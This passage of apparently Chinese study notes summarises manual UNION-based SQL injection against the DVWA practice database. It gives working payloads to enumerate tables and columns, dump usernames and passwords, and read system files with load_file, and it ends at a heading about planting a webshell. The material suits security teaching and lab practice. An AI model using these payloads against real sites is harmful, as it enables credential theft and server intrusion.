 
参考资料：

* [最受欢迎的十款SQL注入工具 - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/139737334)
* [Web安全：SQL注入工具_SQLMap (sohu.com)](https://www.sohu.com/a/438751671_653604#:~:text=SQL注入工具主要是针对Web服务器后台数据库的注入，其主要目的是获取数据库中的数据。 以前常用的SQL注入工具有啊D注入工具及Domain（明小子注入工具），现在常用的SQL注入工具有HackBar、SQLMap 、Pangolin、Havij、Safe3,SQL injector及超级SQL注入 工具等。)





# 4、 SQL注入总结

## 4.1 有回显的手工SQL注入步骤

1、找注入点

2、找闭合，常见的有单引号、双引号（字符型），无闭合（数值型）确定

3、确定列数 order by

4、确定字段类型 union select  

5、爆库  union select 1,database()

6、爆表 

```bash
union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()         
union select 1,group_concat(table_name) from information_schema.tables where table_schema='dvwa'

union select 1,group_concat(table_name) from information_schema.tables where table_schema=0x64767761    （0x64767761是dvwa的ascii码）
```

7、爆列

```bash
union select 1,group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='dvwa'

union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273 and table_schema=0x64767761
```

8、爆内容

```bash
union select group_concat(user),group_concat(password) from users
```

9、读文件

```bash
union select 1,load_file('C:/Windows/win.ini')
```

10、写马
